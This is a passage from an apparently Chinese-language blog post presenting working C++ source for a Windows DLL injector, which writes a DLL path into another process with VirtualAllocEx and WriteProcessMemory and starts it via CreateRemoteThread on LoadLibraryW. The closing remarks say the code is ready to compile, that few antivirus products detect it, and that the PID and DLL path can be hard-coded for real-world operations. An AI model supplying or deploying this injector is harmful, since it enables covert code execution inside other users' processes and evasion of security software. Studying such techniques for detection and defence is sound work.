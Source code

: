 ```
    printf("\n尝试在PID%d中分配大小为%d的缓冲区…\n", absolutePathSize, PID);
    bufferAddressInTargetProcess = VirtualAllocEx(
        processHandle,
        NULL,
        absolutePathSize + 200,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    wprintf(L"在目标进程中的地址 %#010x 处分配缓冲区..\n\n正在尝试向所分配的缓冲区写入绝对路径...", bufferAddressInTargetProcess);
    if (!WriteProcessMemory(processHandle,
        bufferAddressInTargetProcess,
        absolutePath,
        absolutePathSize,
        NULL)
        ) {
        printf("未能将绝对路径写入%d处分配的缓冲区 \n", bufferAddressInTargetProcess);
        return 0;
    }
    LPVOID loadLibraryAddress;
    loadLibraryAddress = (LPVOID)GetProcAddress(                                // https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress
        GetModuleHandle(TEXT("KERNEL32.DLL")), // https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea
        "LoadLibraryW"
    );
    std::cout << "\n 注入中...\n";
    HANDLE remoteThread;
    remoteThread = CreateRemoteThread(
        processHandle,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)loadLibraryAddress,
        bufferAddressInTargetProcess,
        0,
        NULL
    );
    WaitForSingleObject(remoteThread, INFINITE);
    return 0;
}
// 运行程序: Ctrl + F5 或调试 >“开始执行(不调试)”菜单
// 调试程序: F5 或调试 >“开始调试”菜单
// 入门使用技巧: 
//   1. 使用解决方案资源管理器窗口添加/管理文件
//   2. 使用团队资源管理器窗口连接到源代码管理
//   3. 使用输出窗口查看生成输出和其他消息
//   4. 使用错误列表窗口查看错误
//   5. 转到“项目”>“添加新项”以创建新的代码文件，或转到“项目”>“添加现有项”以将现有代码文件添加到项目
//   6. 将来，若要再次打开此项目，请转到“文件”>“打开”>“项目”并选择 .sln 文件
```

编译就可以使用了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCjBicUKPe4q4LOGSxrr7oVic9iauFgcNGf2eJBU2yr1oCLsgVIJciaBz7ic9ibV7zd0ZyfNalUOn2PVvtw/640?wx_fmt=png)

查杀不是很多，在实战中可以根据需要对 PID 和 DLL 路径进行硬编码，或者在调用时将它们作为参数输入命令行中。